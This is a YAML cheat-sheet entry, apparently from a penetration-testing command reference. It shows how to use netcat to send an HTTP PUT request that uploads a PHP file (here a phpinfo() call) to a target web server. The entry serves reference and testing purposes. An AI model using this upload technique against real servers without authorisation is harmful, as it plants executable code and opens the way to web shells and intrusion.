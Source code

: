 ```yaml
---
description: |
  Netcat method of uploading a file using the PUT verb.

  Command Reference:

    Target: The target to connect to

  	Port: port to connect to

command: |
  nc <target> <port>
  PUT /file.php HTTP/1.1
  Content-type: text/html
  Content-length: <size in bytes>
  
  <?php phpinfo(); ?>
  
items:

target: |
  - Linux_target
  - MacOS_target
  - Windows_target
OS:
  - Linux
  - MacOS
environment: |
  - Web
command_types:
  - Admin
  - Information_Gathering
  - Host_Enumeration
references:

---
```

